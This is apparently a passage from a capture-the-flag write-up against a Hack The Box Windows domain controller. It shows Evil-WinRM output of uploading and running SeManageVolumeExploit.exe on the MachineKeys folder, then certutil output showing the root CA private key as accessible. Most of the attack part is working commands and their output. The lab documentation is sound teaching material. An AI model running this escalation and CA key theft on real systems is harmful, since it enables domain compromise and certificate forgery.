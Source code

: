 ```
~$ *Evil-WinRM* PS C:\Users\Ryan.K> upload SeManageVolumeExploit.exe
                                        
Info: Uploading /home/kali/ctf-player/certificate/SeManageVolumeExploit.exe to C:\Users\Ryan.K\SeManageVolumeExploit.exe
                                        
Data: 16384 bytes of 16384 bytes copied
                                        
Info: Upload successful!

~$ *Evil-WinRM* PS C:\Users\Ryan.K> .\SeManageVolumeExploit.exe C:\ProgramData\Microsoft\Crypto\RSA\MachineKeys
Entries changed: 844

DONE
```

<p class="indent-paragraph">
During privilege escalation, it was confirmed that the directory <code>C:\ProgramData\Microsoft\Crypto\RSA\MachineKeys</code> granted write access to <code>Everyone</code> and full control to <code>Users</code><span class="codefix">.</span> This permissive configuration enabled the injection of a fake key container by the exploit. The focus was placed on <strong>Certificate 2</strong>, a root CA with high trust and exportable potential. After running <code>certutil -store My</code><span class="codefix">,</span> the output showed <code>Signature test passed</code><span class="codefix">,</span> confirming that the private key was now accessible.
</p>



```
~$ *Evil-WinRM* PS C:\Users\Ryan.K> icacls "C:\ProgramData\Microsoft\Crypto\RSA\MachineKeys"
C:\ProgramData\Microsoft\Crypto\RSA\MachineKeys Everyone:(R,W)
                                                BUILTIN\Users:(F)

Successfully processed 1 files; Failed processing 0 files

~$ *Evil-WinRM* PS C:\Users\Ryan.K> certutil -Store My
My "Personal"
================ Certificate 0 ================
Archived!
Serial Number: 472cb6148184a9894f6d4d2587b1b165
Issuer: CN=certificate-DC01-CA, DC=certificate, DC=htb
 NotBefore: 11/3/2024 3:30 PM
 NotAfter: 11/3/2029 3:40 PM
Subject: CN=certificate-DC01-CA, DC=certificate, DC=htb
CA Version: V0.0
Signature matches Public Key
Root Certificate: Subject matches Issuer
Cert Hash(sha1): 82ad1e0c20a332c8d6adac3e5ea243204b85d3a7
  Key Container = certificate-DC01-CA
  Unique container name: 6f761f351ca79dc7b0ee6f07b40ae906_7989b711-2e3f-4107-9aae-fb8df2e3b958
  Provider = Microsoft Software Key Storage Provider
Signature test passed

================ Certificate 1 ================
Serial Number: 5800000002ca70ea4e42f218a6000000000002
Issuer: CN=Certificate-LTD-CA, DC=certificate, DC=htb
 NotBefore: 11/3/2024 8:14 PM
 NotAfter: 11/3/2025 8:14 PM
Subject: CN=DC01.certificate.htb
Certificate Template Name (Certificate Type): DomainController
Non-root Certificate
Template: DomainController, Domain Controller
Cert Hash(sha1): 779a97b1d8e492b5bafebc02338845ffdff76ad2
  Key Container = 46f11b4056ad38609b08d1dea6880023_7989b711-2e3f-4107-9aae-fb8df2e3b958
  Simple container name: te-DomainController-3ece1f1c-d299-4a4d-be95-efa688b7fee2
```